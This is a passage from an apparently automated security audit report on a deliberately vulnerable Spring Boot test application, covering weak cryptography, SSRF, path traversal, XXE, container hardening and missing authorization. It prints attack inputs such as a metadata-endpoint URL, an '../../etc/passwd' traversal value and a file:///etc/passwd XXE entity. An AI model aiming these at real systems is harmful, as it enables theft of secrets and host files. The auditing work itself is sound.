- 🔴 [F-004 — Forgeable Custom Authentication Tokens](#f-004) — The forgeable custom authentication token is directly enabled by the hardcoded XOR key in `HomegrownCipher.java:8`; the key is the only material needed to mint valid tokens.
- 🔴 [F-009 — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords](#f-009) — The unprotected credential-recovery endpoint at `GET /api/legacy-crypto/credentials` returns passwords encrypted with a key visible in `LegacyCryptoService.java:13`.
- 🔴 [F-012 — Hardcoded Secrets Baked into Container Image](#f-012) — JWT signing key and AWS credentials hardcoded in `Dockerfile:13` are exposed to any image consumer without authentication.

<a id="cryptographic-algorithm-selection"></a>
#### 6.9.2 Cryptographic Algorithm Selection

**Status:** 🟠 Weak - three broken primitives are in active use: repeating-key XOR, AES/ECB without IV, and unsalted MD5; the main BCrypt path is the only sound algorithm in the codebase.

Java's JCA/JCE framework provides access to vetted cryptographic algorithms. `LegacyCryptoService.java` uses `Cipher.getInstance("AES/ECB/PKCS5Padding")`. `HomegrownCipher.java` implements a hand-written XOR loop. `LegacyPasswordService.java` calls `MessageDigest.getInstance("MD5")`.

**Security assessment**

Three independent algorithm failures, each sufficient to defeat the confidentiality of its protected data:

- `HomegrownCipher.java:14` and `:23` XOR the plaintext against a repeating key - identical key-byte blocks produce identical ciphertext blocks, and the key is recoverable via crib-dragging against any two known-plaintext messages.
- `LegacyCryptoService.java:17` uses `AES/ECB` mode without an IV; identical 16-byte input blocks produce identical output blocks regardless of key, leaking data patterns.
- `LegacyPasswordService.java:15` hashes passwords with unsalted MD5; a single GPU pass over a rainbow table recovers most dictionary passwords from a database dump.

**Relevant findings**

- 🔴 [F-004 — Forgeable Custom Authentication Tokens](#f-004) — The forgeable authentication token uses the XOR cipher, making token forging a matter of XOR arithmetic against a known key.
- 🔴 [F-009 — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext Passwords](#f-009) — Passwords are encrypted with the AES/ECB scheme before storage; the deterministic mode makes pattern recovery feasible even without the key.
- 🔴 [F-012 — Hardcoded Secrets Baked into Container Image](#f-012) — Hardcoded keys at `Dockerfile:13` and `HomegrownCipher.java:8` eliminate key secrecy as a compensating control for the weak algorithms.

### 6.10 File Parser and Outbound Request Controls


**Systemic weaknesses:** [W-002](#w-002)
**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.10.1 Server-Side Request Forgery Prevention](#server-side-request-forgery-prevention)
- [6.10.2 File Upload and Path Validation](#file-upload-and-path-validation)
- [6.10.3 XML External Entity Prevention](#xml-external-entity-prevention)

**Implemented controls:** Spring's `MultipartFile` for upload handling with a configurable `spring.servlet.multipart.max-file-size` in `application.yml`; `DocumentBuilderFactory` instantiated in `XmlPreviewController.java` (without secure configuration).

**Assessment:** No URL validation or allowlist protects the outbound-fetch endpoint. File read and write paths accept user-supplied names without canonicalization or jail checks. The XML parser processes external entities without restriction.

<a id="server-side-request-forgery-prevention"></a>
#### 6.10.1 Server-Side Request Forgery Prevention

**Status:** 🔴 Missing - `IntegrationController.java` issues outbound HTTP requests to any caller-supplied URL without scheme validation, allowlist, or private-address block.

The integration endpoint at `IntegrationController.java` provides a server-side fetch capability, calling `RestTemplate.getForObject()` with a URL parameter. This is intended to retrieve content from configured external integration services.

**Security assessment**

`IntegrationController.java:23` calls `restTemplate.getForObject(url, String.class)` where `url` is the raw `?url=` query parameter with no validation. A caller supplies `http://169.254.169.254/latest/meta-data/` to reach the cloud metadata endpoint, `http://localhost:8080/actuator/env` to read environment secrets through the server, or any other internal host not reachable from the public internet.

**Relevant findings**

- 🔴 [F-010 — Unauthenticated Path Traversal Read](#f-010) — Unauthenticated path traversal on `FileReadController.java:19` reflects the same boundary failure: unchecked user-supplied input resolves to a sensitive internal resource.
- 🔴 [F-011 — Actuator Endpoints Publicly Exposed with Full Secret Values](#f-011) — Actuator endpoints at `SecurityConfig.java:33` are accessible via SSRF if the integration endpoint is directed at `http://localhost:8080/actuator/env`.
- 🟠 [F-023 — Path Traversal Write via Unsanitized Upload Filename](#f-023) — Path traversal write at `BusinessFileStorage.java:23` shares the same absent-containment pattern as the SSRF URL-validation failure.

<a id="file-upload-and-path-validation"></a>
#### 6.10.2 File Upload and Path Validation

**Status:** 🔴 Missing - uploaded filenames and file-read path parameters are used without canonicalization or jail checks, enabling path traversal in both read and write directions.

`BusinessFileStorage.java` writes uploads to `runtime/uploads/` using the client-supplied filename. `FileReadController.java` reads from `runtime/documents/` using a caller-supplied `name` query parameter. Both paths accept a raw string without resolving to a canonical path first.

**Security assessment**

Two independent path-traversal sinks:

- `FileReadController.java:19` appends the `name` query parameter to the base document path without calling `File.getCanonicalPath()` or verifying the resolved path stays within `runtime/documents/`; a `name=../../../../etc/passwd` payload reads arbitrary host-side files.
- `BusinessFileStorage.java:23` writes the uploaded file using the client-supplied filename directly; a filename containing `../` sequences writes outside the upload directory. No extension or MIME-type allowlist exists (`BusinessFileStorage.java:13`), so arbitrary file types can be placed at attacker-chosen paths.

**Relevant findings**

- 🔴 [F-010 — Unauthenticated Path Traversal Read](#f-010) — Unauthenticated path traversal read via `FileReadController.java:19` allows arbitrary file reads from the host filesystem with no authentication required.
- 🔴 [F-011 — Actuator Endpoints Publicly Exposed with Full Secret Values](#f-011) — Actuator endpoint exposure at `SecurityConfig.java:33` means secrets accessible via path traversal are also reachable through the management surface.
- 🟠 [F-023 — Path Traversal Write via Unsanitized Upload Filename](#f-023) — Path traversal write via `BusinessFileStorage.java:23` allows placement of arbitrary file content outside the upload directory.

<a id="xml-external-entity-prevention"></a>
#### 6.10.3 XML External Entity Prevention

**Status:** 🟠 Weak - `XmlPreviewController.java` instantiates `DocumentBuilderFactory` without disabling external entity processing.

`XmlPreviewController.java` accepts raw XML on `POST /api/xml/preview` and parses it with `DocumentBuilderFactory.newInstance()`. The resulting preview renders the parsed document structure as a response to the caller.

**Security assessment**

`XmlPreviewController.java:22` calls `DocumentBuilderFactory.newInstance()` without setting `FEATURE_SECURE_PROCESSING`, `disallow-doctype-decl`, or any feature flag that disables external entity resolution. A submitted XML document with a `DOCTYPE` declaration pointing at `file:///etc/passwd` causes the parser to read that file and embed its contents in the parsed output; a URL-based entity triggers outbound requests from the server.

**Relevant findings**

- 🔴 [F-010 — Unauthenticated Path Traversal Read](#f-010) — Path traversal read on `FileReadController.java:19` demonstrates that the local filesystem is directly reachable from this application — XXE `file://` entities access the same surface.
- 🔴 [F-011 — Actuator Endpoints Publicly Exposed with Full Secret Values](#f-011) — XXE with an `http://localhost:8080/actuator/env` entity reaches the same secret-exposure surface as the SSRF endpoint.
- 🟠 [F-023 — Path Traversal Write via Unsanitized Upload Filename](#f-023) — File write via path traversal complements XXE: the two vectors together enable arbitrary read and write of host files through distinct injection surfaces.

### 6.11 Operations Runtime and Supply Chain Controls

**Verdict:** 🔴 Missing

<!-- The line below is mechanically derived from the controls table — LLM must not re-author it. -->
**Controls covered:**

- [6.11.1 Container Image Hardening](#container-image-hardening)
- [6.11.2 Dependency Version Management](#dependency-version-management)
- [6.11.3 Security Logging and Monitoring](#security-logging-and-monitoring)
- [6.11.4 Management Endpoint Exposure](#management-endpoint-exposure)
- [6.11.5 Automated SCA scanning](#automated-sca-scanning)
- [6.11.6 Automated dependency updates](#automated-dependency-updates)
- [6.11.7 Lockfile hygiene](#lockfile-hygiene)

**Implemented controls:** Maven `pom.xml` with explicit version declarations and the Spring Boot parent BOM; multi-stage Docker build producing a `openjdk:17-slim`-based runtime image.

**Assessment:** The build pipeline has explicit Maven dependency pinning and a Dockerfile-based container build, but no SCA scanner, no automated dependency update tooling, no non-root container user, world-writable container filesystem permissions, and security-event logging is either absent from authorization decision points or actively harmful - `CredentialLoggingFilter.java` logs cleartext passwords on every login.

<a id="container-image-hardening"></a>
#### 6.11.1 Container Image Hardening

**Status:** 🟠 Weak - the base image is unpinned by digest, the container runs as root, and all application files are world-writable.

The `Dockerfile` builds a container image using `openjdk:17-slim` as the base and copies the Spring Boot fat JAR and runtime directories. The container process is the JVM started by the `ENTRYPOINT` instruction with no non-root user configured.

**Security assessment**

Three hardening gaps in the current `Dockerfile`:

- `Dockerfile:1` uses `openjdk:17-slim` without a `@sha256:<digest>` pin; a re-pull of the same tag at a future build can silently introduce a different layer, including upstream vulnerability patches or adversarial image changes.
- `Dockerfile:26` executes `chmod -R 777 /app`, setting world-writable permissions on all application files, including configuration, credentials, and the runtime SQLite store at `runtime/legacy-auth.sqlite`.
- No `USER` directive is present; the JVM runs as root inside the container, so any code-execution vulnerability grants root-level container access.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Missing security event logging means privilege escalation via the world-writable filesystem or root container process produces no audit trail.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — Plaintext password logging in `CredentialLoggingFilter.java:25` writes credentials to container stdout, where any operator or log aggregator with access to container output reads live passwords.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — Unpinned base image in `Dockerfile:1` creates a supply-chain reproducibility gap that affects all downstream security properties of the container.

<a id="dependency-version-management"></a>
#### 6.11.2 Dependency Version Management

**Status:** 🟡 Partial - explicit Maven version declarations with no automated SCA scan or update tooling to surface known-vulnerable transitive dependencies.

`pom.xml` declares explicit version numbers for direct Spring Boot and third-party dependencies via the Spring Boot parent BOM. Builds from the same commit produce the same dependency set without floating version ranges.

**Security assessment**

Explicit pinning in `pom.xml` gives reproducible builds but provides no active vulnerability detection. No `dependabot.yml` or `renovate.json` configuration was found in the repository, so known-vulnerable transitive dependencies accumulate between manual review cycles without any automated alerting or pull-request creation.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Missing security event logging applies at the operational level: CVEs in transitive dependencies will not generate runtime alerts when exploited.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — Cleartext credential logging via the dependency-managed Logback/SLF4J path shows that operational security properties of logging dependencies are not reviewed.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — The unpinned base image represents the same dependency-pinning gap at the OS layer that explicit Maven version pinning addresses for Java dependencies.

<a id="security-logging-and-monitoring"></a>
#### 6.11.3 Security Logging and Monitoring

**Status:** 🟠 Weak - authorization decision points produce no structured security events; `CredentialLoggingFilter.java` logs cleartext passwords on every login attempt.

The Spring Boot application logs request activity through Logback. `CredentialLoggingFilter.java` is registered as a servlet filter that intercepts login requests. Access control decisions in `ProfileController.java`, `AdminReportController.java`, `OrderAccessController.java`, and `UserAccessController.java` produce standard Spring MVC responses but no structured security event.

**Security assessment**

Two opposing failures define the logging posture:

- Authorization decision points in `ProfileController.java:35`, `AdminReportController.java`, `OrderAccessController.java:24`, and `UserAccessController.java:22` emit no structured access-control event on either success or denial - intrusion attempts against IDOR endpoints and the admin report surface leave no trace in application logs.
- `CredentialLoggingFilter.java:25` writes the submitted password in cleartext to the application log on every login request; any operator, CI pipeline, or log aggregator with access to container stdout reads live user passwords.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Missing security event logging at authorization decision points leaves the application blind to access-pattern anomalies and active exploitation.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — Plaintext password logging in `CredentialLoggingFilter.java:25` is an active credential-exfiltration path through the log stream.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — Unpinned container base image creates a supply-chain risk that security logging — were it present — could not detect if a malicious layer introduced a covert data channel.

<a id="management-endpoint-exposure"></a>
#### 6.11.4 Management Endpoint Exposure

**Status:** 🟠 Weak - all Spring Actuator endpoints are publicly accessible without authentication, exposing environment variables, heap dumps, and bean metadata.

Spring Boot Actuator provides operational management endpoints including `/actuator/env` (environment variables), `/actuator/heapdump` (JVM heap dump), `/actuator/beans`, and `/actuator/logfile`. `SecurityConfig.java:33` adds a `permitAll` matcher covering the Actuator base path.

**Security assessment**

`SecurityConfig.java:33` adds `.requestMatchers("/actuator/**").permitAll()` to the filter chain. `/actuator/env` returns the full environment variable set - including `JWT_SIGNING_KEY`, `DB_PASSWORD`, `AWS_ACCESS_KEY_ID`, and `AWS_SECRET_ACCESS_KEY` baked in as `Dockerfile:13` ENV instructions - to any unauthenticated caller. `/actuator/heapdump` allows extraction of the full JVM heap, which contains in-memory credentials and session tokens.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Security event logging is absent on Actuator access; unauthorized reads of `/actuator/env` or `/actuator/heapdump` produce no audit entry.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — Passwords written by `CredentialLoggingFilter.java:25` are also visible in `/actuator/logfile` if the log file Actuator endpoint is enabled, creating a second unauthenticated path to live credentials.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — Dockerfile base image pinning is a prerequisite for trusting that the Actuator endpoints themselves have not been tampered with in a supply-chain attack on the base image.

<a id="automated-sca-scanning"></a>
#### 6.11.5 Automated SCA scanning

**Status:** 🔴 Missing - no software composition analysis tool is configured in the build pipeline or repository.

Software composition analysis tools scan declared and transitive dependencies against vulnerability databases and alert or block on known-CVE libraries. They integrate as Maven plugins, GitHub Actions steps, or repository configuration files such as `.github/dependabot.yml`.

**Security assessment**

No `dependabot.yml`, `renovate.json`, OWASP `dependency-check` Maven plugin, Snyk configuration, or equivalent SCA artifact was found in the repository. Transitive Spring Boot dependencies accumulate CVEs between manual review cycles without automated detection; the `Dockerfile` also pulls a remote install script via `RUN curl ... | bash` at build time without checksum verification, creating a supply-chain execution vector outside the Maven dependency graph.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Without SCA scanning, security event logging is the only runtime signal for vulnerable-dependency exploitation — and that logging is absent on authorization paths.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — Logging libraries in the transitive dependency tree can carry their own vulnerabilities; no SCA scan would detect these proactively.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — Unpinned base image and absent SCA scanning form a combined supply-chain blind spot covering both the OS layer and the Java dependency graph.

<a id="automated-dependency-updates"></a>
#### 6.11.6 Automated dependency updates

**Status:** 🔴 Missing - no automated tooling monitors for dependency updates or opens pull requests when security patches are released.

Dependabot, Renovate, and equivalent tools monitor declared manifests, detect new releases and CVE patches, and open pull requests to bring dependencies current. They require a configuration file in the repository.

**Security assessment**

No Dependabot or Renovate configuration exists in the repository. Version declarations in `pom.xml` are static and will drift from upstream security patches without active manual intervention. This gap is compounded by the absence of automated SCA scanning - there is no passive detection layer either, so vulnerable versions can persist indefinitely.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Missing security event logging means runtime exploitation of an unpatched dependency goes undetected at the application level even after the CVE is public.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — A cleartext-credential logging vulnerability in a transitive logging dependency would not be detected without automated SCA or update tooling to surface the affected version.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — The unpinned base image gap and the missing automated-update posture together mean neither the OS layer nor the Java dependency layer receives automatic security-patch pull requests.

<a id="lockfile-hygiene"></a>
#### 6.11.7 Lockfile hygiene

**Status:** 🟢 Adequate - `pom.xml` declares explicit versions for all direct dependencies via the Spring Boot parent BOM, providing fully reproducible build inputs with no floating version ranges.

Maven projects in this repository use explicit `<version>` declarations in `pom.xml`. The Spring Boot parent BOM resolves transitive dependency versions deterministically. Any developer or CI pipeline building from the same commit produces the same dependency set.

**Security assessment**

`pom.xml` version declarations are explicit and committed to source control with no floating ranges (`[1.0,)` or `LATEST`). The Spring Boot parent BOM pins transitive dependency versions consistently across builds. This lockfile hygiene is the strongest supply-chain positive control in the codebase; it scopes the SCA gap to known-CVE detection rather than also including version drift.

**Relevant findings**

- 🟠 [F-027 — Missing Security Event Logging](#f-027) — Adequate lockfile hygiene does not compensate for absent SCA scanning; reproducible builds consistently reproduce the same known-vulnerable versions without alerting.
- 🟠 [F-029 — Plaintext Password Logged on Every Login](#f-029) — The lockfile's explicit Logback version does not prevent the application from using it to log cleartext credentials.
- 🟠 [F-031 — Dockerfile base image must be digest-pinned](#f-031) — Lockfile hygiene applies to Maven dependencies only; the unpinned Docker base image at `Dockerfile:1` operates entirely outside the Maven lockfile scope.

### 6.12 Real-time and Not Applicable Controls

<!-- §6.12 LOCKED — mechanically derived from absence of real-time findings. Renderer must not rewrite the line below. -->
_Not applicable - no real-time / WebSocket findings routed to this category, and no AI/LLM, GraphQL, or gRPC surfaces detected by the recon scan. Controls catalogued elsewhere (container hardening, dependency determinism) are covered in their primary [§6](#6-security-architecture) sections._

### 6.13 Defense-in-Depth Summary

**Verdict:** -

Spring Security BCrypt password hashing on the main registration path is the strongest single control in the codebase - an adaptively-salted hash that resists offline cracking at any realistic GPU budget. Three additional controls add partial coverage: Spring Security's default response headers (X-Content-Type-Options, X-Frame-Options) block MIME-sniffing and clickjacking on all responses; `@PreAuthorize("hasRole('ADMIN')")` annotations on selected admin UI controllers provide role-scoped access control where applied; and Maven's explicit version declarations in `pom.xml` give reproducible, deterministic builds. These four controls are the only broadly-effective defensive layers present across the 25 cataloged controls.

The gaps that matter most sit at five control boundaries, each independently exploitable. Restoring layered defense requires four structural repairs: (1) replace raw SQL string concatenation in `LegacySqliteUserStore.java:64` and `OrderLookupDao.java:22` with `PreparedStatement` or JPA named-parameter queries to close both injection sinks; (2) move all secrets out of `Dockerfile:13` ENV instructions into a runtime-injected secrets manager, covering `JWT_SIGNING_KEY`, `AWS_ACCESS_KEY_ID`, and the AES key in `LegacyCryptoService.java:13`; (3) re-enable Spring Security CSRF in `SecurityConfig.java:28` and replace the origin-reflection logic in `CorsPolicyFilter.java:32` with an explicit allowlist; (4) replace `HomegrownCipher.java`'s XOR loop and `LegacyCryptoService.java:17`'s AES/ECB mode with HMAC-SHA256 and AES-GCM respectively. Without these four changes, the BCrypt and role-annotation controls are undermined by parallel paths that bypass them entirely.

<!-- enriched:standard -->

---

<a id="weakness-register"></a>
## 7. Weakness Register

Systemic control gaps behind the findings, ordered by severity (W-001 = most severe). Each weakness names the missing, home-grown, or misused control, the findings that evidence it, the components it spans, and its remediation. A weakness may also rest on observed unsafe practice or an absent architectural control with no confirmed exploit - only confirmed findings carry a CVSS score.

- 🔴 **Critical** · [W-001](#w-001) - Endpoints are reachable without enforced authentication · confirmed · 2 findings · 2 components
- 🔴 **Critical** · [W-002](#w-002) - Input handling lacks enforced boundary validation · confirmed · 2 findings · 1 component
- 🔴 **Critical** · [W-003](#w-003) - Authorization is implemented route by route · confirmed · 7 findings · 4 components
- 🟡 **Medium** · [W-004](#w-004) - Cryptographic security is implemented in application code · observed-practice · 1 finding · 1 component
- 🟡 **Medium** · [W-005](#w-005) - Security-sensitive data uses weak cryptographic primitives · observed-practice · 4 findings · 2 components

<a id="w-001"></a>
### W-001 — Endpoints are reachable without enforced authentication

🔴 **Critical** · design weakness · confirmed · 2 findings

Sensitive API routes and real-time channels are exposed without an enforced authentication check at the endpoint boundary. Access control depends on each handler (or the caller) remembering to require a session, so an unauthenticated client can reach privileged operations directly.

**Architectural anti-pattern - Missing server-side authorization layer.** SecurityConfig grants unauthenticated access to the legacy admin board, H2 console, and all cryptography endpoints via blanket permitAll rules, with no default-deny policy. Fixing individual endpoints without inverting the policy leaves newly added routes exposed by default.

**Confirmed findings:**

- 🔴 [F-002](#f-002) — Missing Authentication for Critical Function
- 🔴 [F-015](#f-015) — Unauthenticated H2 Console Access (`config/SecurityConfig.java:32`)

**Architecture evidence:** Route Authentication Middleware, Server-Side Session Enforcement

**Affected components:** [C-03](#c-03), [C-06](#c-06)

**Remediation:**

- **Structural** — enforce authentication centrally at the routing and channel boundary so every exposed endpoint requires a verified session unless explicitly marked public
- **Tactical** — ● [M-002](#m-002), ● [M-015](#m-015)

<a id="w-002"></a>
### W-002 — Input handling lacks enforced boundary validation

🔴 **Critical** · design weakness · confirmed · 2 findings

Request handlers do not validate input against one enforced server-side schema or allowlist at the boundary - validation is either absent on the vulnerable parameters or limited to rejecting selected bad patterns (a blacklist). New encodings and unanticipated input forms can therefore reach downstream parsers or interpreters.

**Confirmed findings:**

- 🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)
- 🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename

**Architecture evidence:** Schema Validation, Allowlist Validation

**Affected components:** [C-07](#c-07)

**Remediation:**

- **Structural** — enforce server-side schemas and domain-specific allowlists before input reaches parsing, persistence, or command construction
- **Tactical** — ● [M-010](#m-010), ◕ [M-022](#m-022)

<a id="w-003"></a>
### W-003 — Authorization is implemented route by route

🔴 **Critical** · design weakness · confirmed · 7 findings

Authorization depends on per-handler checks instead of a policy boundary that consistently enforces role, ownership, and tenant scope. New routes can bypass protection by omitting a local check.

**Confirmed findings:**

- 🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication (`SecurityConfig.java:45`)
- 🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java:32`)
- 🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java:35`)
- 🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)
- 🟠 [F-040](#f-040) — Insecure Direct Object Reference
- 🔴 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email
- 🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`)

**Architecture evidence:** Centralised AuthZ Policy, Role / Scope Enforcement, Ownership Check

**Affected components:** [C-03](#c-03), [C-05](#c-05), [C-04](#c-04), [C-01](#c-01)

**Remediation:**

- **Structural** — enforce authorization through a shared server-side policy layer and make ownership and tenant scope mandatory inputs to data access
- **Tactical** — ● [M-014](#m-014), ● [M-016](#m-016), ◕ [M-027](#m-027), ◕ [M-036](#m-036), ◕ [M-039](#m-039), ◕ [M-041](#m-041), ◕ [M-042](#m-042)

<a id="w-004"></a>
### W-004 — Cryptographic security is implemented in application code

🟡 **Medium** · implementation weakness · observed-practice · 1 finding

Application code owns cryptographic protocol, key, or primitive decisions that should be fixed by a vetted platform or library. Security then depends on every caller choosing compatible algorithms and parameters.

**Practice sites:**

- 🟠 [F-020](#f-020) — Hand-rolled XOR / repeating-key cipher src/main/java/com/example/appsecverifica… (`src/main/java/com/example/appsecverificationtarget/crypto/HomegrownCipher.java:14`)

**Affected components:** backend-api

**Remediation:**

- **Structural** — replace application-owned cryptographic protocol and key handling with a vetted library or managed cryptographic service
- **Tactical** — ◕ [M-020](#m-020)

<a id="w-005"></a>
### W-005 — Security-sensitive data uses weak cryptographic primitives

🟡 **Medium** · implementation weakness · observed-practice · 4 findings

Password, token, or integrity protection uses a weak hash, predictable random source, or insufficient work factor. The application may use a standard library, but the selected primitive does not provide the required security property.

**Practice sites:**

- 🟠 [F-022](#f-022) — Predictable OTP from Non-Cryptographic PRNG (`LegacyTokenService.java:10`) (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyTokenService.java:10`)
- 🟠 [F-030](#f-030) — MD5 Password Hash Used in Registration Path (`RegistrationController.java:55`) (`src/main/java/com/example/appsecverificationtarget/authentication/RegistrationController.java:55`)
- 🟠 [F-033](#f-033) — Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`) (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyPasswordService.java:15`)
- 🟠 [F-044](#f-044) — Deterministic AES/ECB Encryption without IV (`LegacyCryptoService.java:17`) (`src/main/java/com/example/appsecverificationtarget/crypto/LegacyCryptoService.java:17`)

**Affected components:** [C-02](#c-02), [C-05](#c-05)

**Remediation:**

- **Structural** — standardise on a password KDF, a CSPRNG for secrets, and modern authenticated cryptographic primitives with centrally reviewed parameters
- **Tactical** — ◕ [M-021](#m-021), ◕ [M-029](#m-029), ◕ [M-032](#m-032), ◑ [M-043](#m-043)

---

## 8. Findings Register

Findings are grouped by severity (Critical → High → Medium → Low); within a tier they are ordered by attack vektor (Repo-Read → Internet-Anon → Internet-User → Victim-Required). Each finding is a card with the same fixed fields, in order: **Severity · Component · Location** → **Issue** → **Root cause** → **Evidence** → **Fix** → **Classification** (with external CWE / OWASP links).

**Risk Distribution:** 🔴 Critical: 15 · 🟠 High: 28 · 🟡 Medium: 3 · 🟢 Low: 0 · **Total findings: 46**
**STRIDE Coverage:** Spoofing: 6 · Tampering: 11 · Repudiation: 1 · Information Disclosure: 16 · Denial of Service: 4 · Elevation of Privilege: 8

The systemic root-cause view is summarized in **Top Weaknesses** in the Management Summary; evidence-backed weaknesses are documented in the [Weakness Register](#weakness-register).

**Findings index:**<br/>🟠 [F-001](#f-001) — Missing Rate Limiting on Public Endpoints<br/>🔴 [F-002](#f-002) — Missing Authentication for Critical Function…<br/>🔴 [F-003](#f-003) — Insecure JWT Verification<br/>🔴 [F-004](#f-004) — Forgeable Custom Authentication Tokens (`HomegrownCipher.java:8`)…<br/>🔴 [F-005](#f-005) — SQL Injection in Legacy Auth Endpoint (`LegacySqliteUserStore.java:64`)…<br/>🔴 [F-006](#f-006) — SQL Injection<br/>🔴 [F-007](#f-007) — OS Command Injection (`ToolController.java:18`)…<br/>🔴 [F-008](#f-008) — Unauthenticated Endpoint Returns All Users With Cleartext Passwords…<br/>🔴 [F-009](#f-009) — Unprotected Vault Credential Recovery Endpoint Exposes Plaintext…<br/>🔴 [F-010](#f-010) — Unauthenticated Path Traversal Read (`FileReadController.java:19`)…<br/>🔴 [F-011](#f-011) — Actuator Endpoints Publicly Exposed with Full Secret Values…<br/>🔴 [F-012](#f-012) — Hardcoded Secrets Baked into Container Image (Dockerfile:13)…<br/>🔴 [F-013](#f-013) — Mass Assignment Privilege Escalation (`ProfileController.java:44`)…<br/>🔴 [F-014](#f-014) — All Crypto Endpoints Exposed Without Authentication…<br/>🔴 [F-015](#f-015) — Unauthenticated H2 Console Access (`config/SecurityConfig.java:32`)…<br/>🔴 [F-016](#f-016) — H2 Database Console Publicly Exposed (`SecurityConfig.java:32`)…<br/>🟠 [F-017](#f-017) — Base64 Session Token Forgeable for Any User…<br/>🟠 [F-018](#f-018) — Permissive CORS Origin Reflection (`CorsPolicyFilter.java:32`)…<br/>🟠 [F-019](#f-019) — CSRF Protection Disabled Application-Wide (`SecurityConfig.java:28`)…<br/>🟠 [F-020](#f-020) — Hand-rolled XOR / repeating-key cipher…<br/>🟠 [F-022](#f-022) — Predictable OTP from Non-Cryptographic PRNG…<br/>🟠 [F-023](#f-023) — Path Traversal Write via Unsanitized Upload Filename…<br/>🟠 [F-024](#f-024) — World-Writable File Permissions on All Container Files (Dockerfile:26)…<br/>🟠 [F-025](#f-025) — XML External Entity Injection (`XmlPreviewController.java:22`)…<br/>🟠 [F-026](#f-026) — Server-Side Request Forgery (`IntegrationController.java:23`)…<br/>🟠 [F-027](#f-027) — Missing Security Event Logging<br/>🔴 [F-028](#f-028) — Missing Authorization (`AdminReportController.java:35`)…<br/>🟠 [F-029](#f-029) — Plaintext Password Logged on Every Login…<br/>🟠 [F-030](#f-030) — MD5 Password Hash Used in Registration Path…<br/>🟠 [F-031](#f-031) — Dockerfile base image must be digest-pinned — `Dockerfile:1`<br/>🔴 [F-032](#f-032) — Hardcoded Symmetric Encryption Keys…<br/>🟠 [F-033](#f-033) — Unsalted MD5 Password Hashing (`LegacyPasswordService.java:15`)…<br/>🟠 [F-034](#f-034) — Cleartext Password Storage in SQLite Database…<br/>🟠 [F-035](#f-035) — Cleartext Password Enumeration via Public API…<br/>🟠 [F-036](#f-036) — Legacy Credential Database Baked Into Container Image Layers…<br/>🔴 [F-037](#f-037) — Missing Authorization (`LegacyAdminBoardController.java:37`)…<br/>🟠 [F-038](#f-038) — No Rate Limiting on Auth Endpoints Enables Credential Stuffing…<br/>🟠 [F-039](#f-039) — Unbounded File Read Exhausts JVM Heap via Path Traversal…<br/>🟠 [F-040](#f-040) — Insecure Direct Object Reference<br/>🟠 [F-041](#f-041) — Unrestricted File Type Upload with No Extension or MIME Validation…<br/>🔴 [F-042](#f-042) — Unauthenticated cross-user order lookup via arbitrary email…<br/>🔴 [F-043](#f-043) — Admin Report Endpoint Unauthenticated (`SecurityConfig.java:34`)…<br/>🟠 [F-044](#f-044) — Deterministic AES/ECB Encryption without IV…<br/>🟡 [F-045](#f-045) — Dockerfile USER directive (non-root) — `Dockerfile:1`<br/>🟡 [F-046](#f-046) — Unauthenticated public-feed exposes internal storageName and…<br/>🔴 [F-048](#f-048) — JWT verification does not pin the accepted algorithm…

<a id="th-01"></a><a id="th-02"></a><a id="th-03"></a><a id="th-06"></a><a id="th-07"></a><a id="th-09"></a><a id="th-17"></a><a id="th-08"></a><a id="th-12"></a><a id="th-14"></a><a id="th-15"></a><a id="th-16"></a>

### 🔴 Critical (15)

<a id="t-002"></a><a id="f-002"></a>
#### F-002 · Missing Authentication for Critical Function

**Severity:** 🔴 Critical  ·  **Component:** [C-03](#c-03) - Authorization and Access Control Layer  ·  **Location:** `src/main/java/com/example/appsecverificationtarget/legacyadmin/LegacyAdminBoardController.java:29`

**Weakness:** [W-001](#w-001) - Endpoints are reachable without enforced authentication

**Issue:** `SecurityConfig.java:41` adds `/legacy/admin` and `/legacy/admin/**` to `permitAll()`, removing all authentication requirements from the legacy admin board. `LegacyAdminBoardController.java:23` maps `GET /legacy/admin` which lists all user accounts.

`POST /legacy/admin/users/{id}/promote` at line 29 sets `admin=true` and `role='ADMIN'` on any user and persists the change. An anonymous attacker can enumerate all accounts by visiting the board, then promote any user (including a newly registered one or themselves after logging in) to admin status.

Anonymous attacker obtains admin authority over the entire application by promoting any user account, bypassing all authentication controls including the `@PreAuthorize` annotations protecting other admin endpoints.

